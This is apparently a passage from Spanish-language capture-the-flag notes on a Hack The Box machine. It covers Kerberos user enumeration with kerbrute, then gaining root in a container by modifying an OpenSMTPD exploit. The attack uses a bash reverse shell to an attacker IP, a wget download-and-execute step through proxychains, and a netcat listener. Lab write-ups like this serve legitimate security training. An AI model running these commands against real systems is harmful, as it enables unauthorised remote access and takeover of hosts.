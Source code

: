 1. creamos un fichero de usuarios y pegamos el usuario j.nakasawa
1. enumeramos usuarios con kerbrute

    ```bash
    kerbrute userenum --dc 10.10.10.224 -d realcorp.htb users
    ```

vemos que el usuario es valido. En el exploit, cambiamos el 
```bash
 s.send(b'RCPT TO:<root>\r\n') 
```
 por 
```bash
 s.send(b'RCPT TO:<j.nakazawa@realcorp.htb>\r\n') 
```
 y lanzamos 
nuevamente el exploit. Vemos que tenemos un GET en nuestro servidor web lo que significa que podemos ejecutar comandos y que tenemos conectividad con esta
maquina.## Vuln exploit & Gaining Access {-}

### Ganando acceso con el exploit opensmtpd {-}

1. creamos un ficher index.html que contiene

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.29/443 0>&1
    ```

1. lanzamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. lanzamos el exploit desde proxychains

    ```bash
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.29 -O /dev/shm/rev
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'bash /dev/shm/rev
    ```

Ya hemos ganado acceso al contenedor como root.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
